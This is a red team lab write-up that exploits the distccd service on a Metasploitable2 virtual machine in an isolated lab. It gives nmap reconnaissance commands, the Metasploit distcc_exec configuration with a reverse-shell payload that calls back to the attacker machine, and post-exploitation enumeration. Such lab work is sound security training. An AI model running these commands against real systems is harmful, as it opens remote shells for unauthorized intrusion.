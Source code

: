 # Red Team Lab: Metasploitable2 - distccd Exploit

## Objective

The purpose of this lab is to demonstrate a controlled, ethical exploitation of a vulnerable service (distccd) on the Metasploitable2 virtual machine. This exercise highlights reconnaissance, vulnerability identification, exploitation, and initial post-exploitation steps.

## Environment Setup

* **Attacker VM:** Kali Linux 192.168.56.101
![Kali](Screenshots/pictwo.png)
* **Target VM:** Metasploitable2 192.168.56.102
![metaspoitable](Screenshots/pic1.png)
* **Tools Used:** Nmap for reconnaissance, Metasploit Framework for exploitation

## Step 1: Reconnaissance

Performed a full TCP port scan to discover open services on the target VM.

```bash
nmap -p- -T4 -sS --open -oA nmap_full 192.168.56.102
```
![nmap scan](Screenshots/picthree.png)

**Observations:**

* Open port 3632 identified running the **distccd** service.
* Other open ports recorded for future analysis.

**Breakdown:**

* **Nmap:** Network mapping tool that scans for open ports and services.
* **-p-:** Scans all 65535 TCP ports.
* **-T4:** Aggressive timing for faster scanning.
* **-sS:** SYN scan to identify open ports stealthily.
* **--open:** Show only open ports.

**Confirm conection**

```bash
nmap -sV -p 3632 192.168.56.102 
```

```bash
nc -vz 192.168.56.102 3632
```
![nmap scan](Screenshots/picfour.png)

## Step 2: Vulnerability Identification

Searched for a Metasploit module targeting the distccd service.

```bash
msf6 > search distcc
```
![mfsconsole](Screenshots/picfive.png)

**Result:**

```
exploit/unix/misc/distcc_exec - DistCC Daemon Command Execution
```

* Rank: Excellent (high confidence in exploit reliability)
* Description: Remote command execution on the distccd service.

**Explanation:**

* **Metasploit:** Framework for developing and executing exploits.
* **Module rank:** Indicates reliability and stability of the exploit.
* **RCE (Remote Code Execution):** Ability to execute commands on the target machine remotely.

## Step 3: Module Configuration

Loaded the exploit module and set required parameters.

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 > set RHOSTS 192.168.56.102
msf6 > set RPORT 3632
msf6 > set LHOST 192.168.56.101
msf6 > set LPORT 4445
msf6 > set PAYLOAD cmd/unix/reverse
msf6 > show options
```
![config](Screenshots/picsix.png)
![config](Screenshots/picseven.png)

**Explanation of options:**

* **RHOSTS:** IP address of the target machine.
* **RPORT:** Port on the target running the vulnerable service.
* **LHOST:** Local attacker IP where the reverse shell will connect.
* **LPORT:** Local listening port for the reverse shell.
* **Payload:** Defines the action after successful exploitation (here, a reverse shell).

## Step 4: Exploitation

Executed the exploit to gain a command shell on the target.

```bash
msf6 > exploit
```

**Outcome:**

* Reverse shell established from Metasploitable2 to Kali Linux.
* Command shell session opened:

  * User: daemon (low-privileged)
  * UID/GID: 1 (daemon)

**Explanation:**

* **Reverse shell:** The target connects back to the attacker, bypassing firewall restrictions.
* **Session:** Interactive connection to run commands on the target.

## Step 5: Post-Exploitation

Verified system access and collected initial information.

Commands executed:

```bash
whoami
id
uname -a
pwd
ls -la
```
![exploit](Screenshots/piceight.png)

**Observations:**

* User context: daemon (non-root)
* Kernel and OS: Linux 2.6.24-16-server
* Current working directory: /tmp
* Directory contents listed, including temporary and system files.

**Explanation:**

* **whoami/id:** Confirm user privileges.
* **uname -a:** Identify system kernel and architecture.
* **pwd/ls -la:** Explore current directories and file permissions.



## Conclusion

* Successfully exploited the distccd service on Metasploitable2.
* Gained low-privileged shell access and explored the system.
* Demonstrated full workflow: reconnaissance, vulnerability identification, exploitation, post-exploitation.
* This lab highlights ethical hacking practices in a controlled environment.

---

**Note:** All actions were performed in a controlled, isolated lab environment. No live systems were harmed.
